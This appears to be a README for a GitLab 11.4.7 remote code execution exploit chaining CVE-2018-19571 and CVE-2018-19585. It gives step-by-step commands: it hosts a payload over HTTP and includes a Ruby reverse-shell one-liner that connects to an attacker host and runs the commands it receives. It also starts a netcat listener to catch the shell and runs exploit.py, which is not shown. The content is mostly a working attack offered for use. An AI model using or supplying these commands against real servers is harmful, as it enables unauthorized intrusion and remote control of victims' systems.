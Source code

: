 ### Exploit for GitLab 11.4.7 RCE (CVE-2018-19571 + CVE-2018-19585)


![](example.png)


You must host your payload on a webserver
```
python3 -m http.server 80
```

This payload should work on most gitlab instances
```sh
export RHOST=10.10.10.11
export RPORT=53
ruby -rsocket -e 'exit if fork;c=TCPSocket.new(ENV["RHOST"],ENV["RPORT"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```


In this example we must start our reverse shell handler as well
```
nc -nvlp 53
```


Don't forget to add your web server address on exploit.
And/Or adjust it based on your own preferences.
```
python3 exploit.py
```

